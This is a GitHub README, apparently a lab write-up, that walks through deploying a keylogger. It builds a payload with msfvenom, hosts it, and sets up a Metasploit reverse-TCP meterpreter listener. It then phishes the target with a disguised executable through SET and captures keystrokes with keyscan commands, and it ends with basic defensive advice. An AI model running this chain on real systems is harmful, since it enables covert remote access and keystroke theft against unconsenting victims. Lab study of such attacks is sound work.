 # <p align="center"> Keylogger

## Introduction

This project details the deployment and analysis of a keylogging exploit using the Metasploit Framework. The project aims to demonstrate the process of unauthorized access and keystroke monitoring on a target machine, emphasizing the critical importance of secure coding practices and regular system updates. By leveraging the comprehensive tools provided by Metasploit, including msfvenom for payload creation and the Social-Engineer Toolkit (SET) for social engineering attacks, this project simulates a real-world cyber-attack scenario. The methodology encompasses setting up a controlled lab environment with virtual machines, configuring network settings, and executing a phishing campaign to deliver the payload. This report provides a step-by-step account of the entire process,

## Choice of Exploit

- I utilized the Metasploit Framework to deploy a keylogger. This method was chosen because Metasploit offers a comprehensive set of tools for exploiting vulnerabilites and deploying payloads like keyloggers. It demonstrates the process of gaining unauthorized access then monitoring keystrokes on a target machine, emphasizing the importance of secure coding and regurlar system updates.

## Emulations Setup

***Lab Enviroment Configuration:***
- ***Attacker VM:*** Setup a Kali Linux VM to serve as the attacker's machine. This VM will create the payload with msfvenom, host it using the Pythons HTTP server, send the phishing email via SET’s Mass Email Attack feature, and then deploy keylogger to monitor keystrokes.
- ***Target VM:*** Configure a Windows VM as the target for receiving the phishing email and accessing the payload.

***NAT Network Configuration:***
- Kali Linux (Attacker) and Windows (Target) VMs should be configured to use a NAT network. This setup allows for the VMs to share the host machine’s internet connection while isolating them from the host’s network and each other.

***Disabling Windows Security Settings:***
- Turn off all security settings on the Windows target VM, including Windows Defender and any installed antivirus programs. This step is essential to allow the payload to execute without being blocked or flagged by the system’s security measures.
- Navigate to Windows Security settings and turn off features like real-time protection, cloud-delivered protection, and automatic sample submission to prevent the system from intercepting the payload.

***Payload Hosting on Attacker VM:***
- Host the “AdvancedDentalResearchFinding.exe” payload using Python’s HTTP server.
  ```python3 -m http.server```
- The payload is now accessible through the attackers VMs internal IP address on the NAT network.

***Listener Setup on Attacker VM:***
- Open msfconsole on the Kali Linux VM to configure a listener for a reverse TCP connection

  ```use exploit/multi/handler```

  ```set payload windows/meterpreter/reverse_tcp```

  ```set lhost 192.168.100.4```

  ```set lport 5555```

  ```run```

- This configuration listens for the reverse TCP connection from the payload executed on the target machine.

## Step-by-Step Deployment

***Payload creation with msfvenom***
- Create the reverse TCP payload using msfvenom

![image](https://github.com/user-attachments/assets/8c38f1fd-a159-42b6-83c6-df610d2e3fc0)

***Use Python to create HTTP server to host payload

  ```python3 -m http.server```

![image](https://github.com/user-attachments/assets/75f201f0-9d13-4771-967a-7068a2a3365b)

***Setup a listner using msfconsole***
- Run msfconsole

![image](https://github.com/user-attachments/assets/2c82b8ab-9631-4f1c-9d7a-08ebac496d16)

- Use exploit/multi/handler

![image](https://github.com/user-attachments/assets/ce44fda2-5746-40a9-ad8b-9c5bad4b97bc)

- Set payload windows/meterpreter/reverse_tcp

![image](https://github.com/user-attachments/assets/2c7681d9-7d49-4965-934b-89ca71167d71)

- Use show options command to display required payload options

![image](https://github.com/user-attachments/assets/c8bc2005-e16a-4b59-85ce-742bb9d4f128)

- Set lhost to 192.168.100.4

![image](https://github.com/user-attachments/assets/33ff1650-c4d3-4bf3-b925-b2e2e245b990)

- Use show options command to display updated payload options

![image](https://github.com/user-attachments/assets/1418ef1c-b2b8-4dfa-a84c-d502d06cd0f6)

- set lport to 5555 (port used by payload)

![image](https://github.com/user-attachments/assets/6cb9ca0e-c198-42bd-9035-2706c1c53f1e)

- Use show options command to display updated payload options

![image](https://github.com/user-attachments/assets/89077835-01e8-4539-b706-c97a1d4aaf1e)

- Run the exploit

![image](https://github.com/user-attachments/assets/a65f8469-7f23-4f4f-8b70-8699da4c126e)

***Use The Social-Engineer ToolKit (SET) to send the payload to the target***
- Run SET and select option [1] Social-Engineering Attacks

![image](https://github.com/user-attachments/assets/9dca8624-683c-4421-ae70-6fa83d2e0b9d)

- Select option [5] Mass Mailer Attack

![image](https://github.com/user-attachments/assets/6bf02f71-6263-45a0-bc33-410dd373da28)

- Select option [1] E-Mail Attack Single Email Address

![image](https://github.com/user-attachments/assets/3bb8ea03-18f3-4d49-a66e-dcbfb172047c)

- Select option [2] One-Time Use Email Template

![image](https://github.com/user-attachments/assets/dc0dcfc0-10f9-45f7-a3e9-3e340d8b8835)

- Fill in all the information for the email

![image](https://github.com/user-attachments/assets/3d7f62e8-e074-4213-846c-c1c7a090148f)

***Target View***
- Email inbox view of target

![image](https://github.com/user-attachments/assets/ebd66aad-c5f7-449a-a846-80e610a2e1db)

- Email view with payload attached

![image](https://github.com/user-attachments/assets/a49dbf72-56e9-4bc3-a48b-7d4e2a456fac)

- Target view after clicking link

![image](https://github.com/user-attachments/assets/937f9483-2d0d-4525-8ed0-3352a6e8b13f)

- Pop up message displays when clicking the download file indicating that the file is harmful. For this demonstration, we will select keep

 ![image](https://github.com/user-attachments/assets/312c7dd4-ee9b-43da-a7ab-6a4451ecdb34)

 - Select open file

![image](https://github.com/user-attachments/assets/99333d71-621b-41fc-b810-4bdd2c933fdf)

- Select Run

![image](https://github.com/user-attachments/assets/c4ca96f7-5132-4d65-a82d-e4c7d50afec9)

***Attacker View***
- Check listener in msfconsole for reverse TCP successful connection

![image](https://github.com/user-attachments/assets/4610f417-c50d-4c46-87ed-dd6fe3522079)

- Use ```keyscan_start``` command to initiate keylogging process

![image](https://github.com/user-attachments/assets/c2f390ab-4fbd-457c-b4f8-f956e01a510a)

- Use ```keyscan_dump``` command to display the keystrokes that have been captured

![image](https://github.com/user-attachments/assets/38353a57-6a3e-41d7-9dab-460d3cca4f63)

## Preventative Measures

- ***Keep Systems Updated:*** Emphasize the importance of keeping all software and operating systems up to date to protect against known vulnerabilties.
- ***Install and Maintain Antivirus Software:*** Emphasize the importance of active antivirus and anit-malware solutions that detect and blcok malicious activities, including unauthorized keyloggers.
- ***Implement Firewalls:*** Utilize network firewalls to block unauthorized access to computer systems. 

## Conclusion

The keylogging project successfully demonstrated the vulnerabilities inherent in unprotected systems and the ease with which malicious actors can exploit these weaknesses using tools like the Metasploit Framework. Through the detailed execution of the exploit, it became evident that maintaining robust security measures, such as regular software updates, active antivirus solutions, and effective firewall configurations, are crucial in defending against such attacks. 
